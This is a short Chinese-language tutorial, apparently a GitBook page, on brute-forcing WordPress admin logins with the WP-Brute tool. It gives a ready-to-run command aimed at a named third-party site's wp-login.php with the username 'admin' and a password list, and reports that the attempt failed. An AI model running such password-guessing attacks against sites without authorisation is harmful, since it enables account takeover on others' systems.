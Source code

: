 ﻿# 暴力破解

> 原理：

进入WP**登录页面**，使用**密码字典**逐一尝试，若黑客得知管理员的名称，则破解时间大大减少。此方法对**弱密码**很有效

> 工具：

GitHub的[WP-Brute](https://github.com/bitaurora/wp-brute.git) 等

以刚才 [http://www.ren21.net](http://www.ren21.net/) 为例，在Linux 安装wp-brute，然后执行，proxy代理参数可选

> 语法：
```php
php  wp-brute.php  http://www.ren21.net/wp-login.php  admin  lib/passlist.txt
```
```php
php  <执行的php文件>  <登录页面的URL>  <用户名>  <密码字典.txt>
```

> 实例：

![](https://gblobscdn.gitbook.com/assets%2F-LhVVVIAnQXltst0fTl_%2F-LhVVZDY6yX73avND9-D%2F-LhVVgFYWmrHVs02ZH2a%2Fimport6.png?generation=1560692311601682&alt=media)

看来密码字典不够强大，破解没成功。
